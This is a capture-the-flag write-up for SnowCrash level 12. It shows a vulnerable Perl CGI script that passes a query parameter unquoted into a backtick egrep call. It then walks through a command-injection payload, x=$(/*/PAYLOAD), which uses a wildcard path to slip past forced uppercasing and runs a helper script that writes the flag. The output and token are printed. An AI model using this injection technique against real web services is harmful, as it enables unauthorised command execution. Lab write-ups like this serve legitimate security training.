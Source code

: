 # Solution

So once we logged in, we can find in the home a perl script name level12.pl here is the source code:

```perl
#!/usr/bin/env perl
# localhost:4646
use CGI qw{param};
print "Content-type: text/html\n\n";

sub t {
  $nn = $_[1];
  $xx = $_[0];
  $xx =~ tr/a-z/A-Z/; 
  $xx =~ s/\s.*//;
  @output = `egrep "^$xx" /tmp/xd 2>&1`;
  foreach $line (@output) {
      ($f, $s) = split(/:/, $line);
      if($s =~ $nn) {
          return 1;
      }
  }
  return 0;
}

sub n {
  if($_[0] == 1) {
      print("..");
  } else {
      print(".");
  }    
}
```

So it's a server that is up that accept two param x and y it will uppercase everything inside x param,
and x will be use in egrep.

Egrep is equivalent to grep -E which means that the pattern interpolate the strings so we can use \`\` or $(...) notation,
to pass a command the issue though is that since everything will be in uppercase we need to create a new getflag command,
so the idea here is to execute a bash script that will do multiple command in one argument since we also cannot do space.

Here is the payload bash script:

```sh
#!/bin/bash

getflag > /tmp/flag
```

Now that we have created this script we need to make that script executable and have a uppercase name.

```sh
chmod +x /tmp/PAYLOAD
```

We will use the leverage of the subshell that will launch from egrep so that it will run the bash script,
now we just need to use $(...) notation to use the subshell ability.


```sh
level12@SnowCrash:~$ curl 'localhost:4646?x=$(/*/PAYLOAD)'
..level12@SnowCrash:~$ cat /tmp/flag
Check flag.Here is your token : g1qKMiRpXf53AWhDaU7FEkczr
level12@SnowCrash:~$
```

We use the  $(...) notation but since we cannot specify /tmp/PAYLOAD because it's min,
we use * to fetch any valid directory with a file named PAYLOAD inside, and as you can see it works we get the flag for level13.
